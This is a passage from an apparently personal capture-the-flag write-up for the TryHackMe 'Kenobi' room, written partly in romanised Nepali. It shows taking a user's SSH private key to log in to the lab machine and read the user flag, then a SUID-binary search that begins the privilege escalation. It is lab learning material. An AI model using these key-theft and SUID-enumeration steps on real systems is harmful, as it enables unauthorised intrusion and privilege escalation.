 ```jsx
drwxrwsr-x  2 root mail  4096 Feb 27  2019 mail
drwxr-xr-x  2 root root  4096 Feb 27  2019 opt
lrwxrwxrwx  1 root root     4 Sep  4  2019 run -> /run
drwxr-xr-x  2 root root  4096 Jan 30  2019 snap
drwxr-xr-x  5 root root  4096 Sep  4  2019 spool
drwxrwxrwt  6 root root  4096 Jun  9 21:05 tmp
drwxr-xr-x  3 root root  4096 Sep  4  2019 www

```

Now we just copy the id_rsa to out local folder that is `~/thm/kenobi` for me

![image.png](attachment:1256882e-2f97-4a9b-ac2d-2810b0e0f622:image.png)

Then chmod haru ani ssh garne

Ani tyas paxi ta ez, `user.txt` lai cat and we get the flag

## Now for Privilege escalation

We find the `suid bit` and we try some of the binaries

```jsx
┌──(namura㉿namu)-[~/thm/kenobi]
└─$ ssh -i id_rsa kenobi@10.10.217.222          
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.8.0-58-generic x86_64)

 * Documentation:  <https://help.ubuntu.com>
 * Management:     <https://landscape.canonical.com>
 * Support:        <https://ubuntu.com/advantage>

103 packages can be updated.
65 updates are security updates.

Last login: Wed Sep  4 07:10:15 2019 from 192.168.1.147
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

kenobi@kenobi:~$ find / -perm -u=s -type f 2>/dev/null
/sbin/mount.nfs
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/snapd/snap-confine
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/bin/chfn
/usr/bin/newgidmap
/usr/bin/pkexec
/usr/bin/passwd
/usr/bin/newuidmap
/usr/bin/gpasswd
/usr/bin/menu
/usr/bin/sudo
/usr/bin/chsh
/usr/bin/at
/usr/bin/newgrp
/bin/umount
/bin/fusermount
/bin/mount
/bin/ping
/bin/su
/bin/ping6

```